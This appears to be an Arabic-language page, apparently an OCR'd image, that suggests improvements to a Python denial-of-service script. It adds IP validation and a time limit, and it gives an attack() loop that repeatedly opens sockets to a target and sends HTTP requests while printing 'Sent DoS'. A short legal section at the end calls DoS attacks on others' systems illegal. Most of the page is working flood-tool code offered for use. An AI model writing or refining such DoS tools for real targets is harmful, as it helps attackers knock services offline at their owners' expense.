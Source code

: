 ## 🛡️ تحسينات مقترحة للكود

### 1. إضافة تحقق من المدخلات
```python
import re

def validate_ip(ip):
    pattern = r'^(\d{1,3}\.){3}\d{1,3}$'
    if not re.match(pattern, ip):
        return False
    
    parts = ip.split('.')
    return all(0 <= int(part) <= 255 for part in parts)

target = input("Target IP: ")
if not validate_ip(target):
    print("Invalid IP address!")
    exit(1)
```

### 2. إضافة حد زمني
```python
import time

start_time = time.time()
timeout = 60  # 60 ثانية

def attack():
    while time.time() - start_time < timeout:
        # ... كود الهجوم
```

### 3. تحسين معالجة الأخطاء
```python
def attack():
    while True:
        try:
            s = socket.socket()
            s.settimeout(5)  # timeout 5 ثواني
            s.connect((target, port))
            s.send(b"GET / HTTP/1.1\r\nHost: target\r\n\r\n")
            s.close()
            print(f"Sent DoS to {target} on port {port}")
        except socket.timeout:
            print("Connection timeout")
        except ConnectionRefusedError:
            print("Connection refused")
        except Exception as e:
            print(f"Error: {e}")
```

## ⚖️ الجوانب القانونية

- هجمات DoS غير قانونية ضد أنظمة أخرى
- استخدم فقط على أنظمة خاصة بك
- قد تؤدي إلى عواقب قانونية خطيرة
- احصل على إذن مكتوب قبل الاختبار 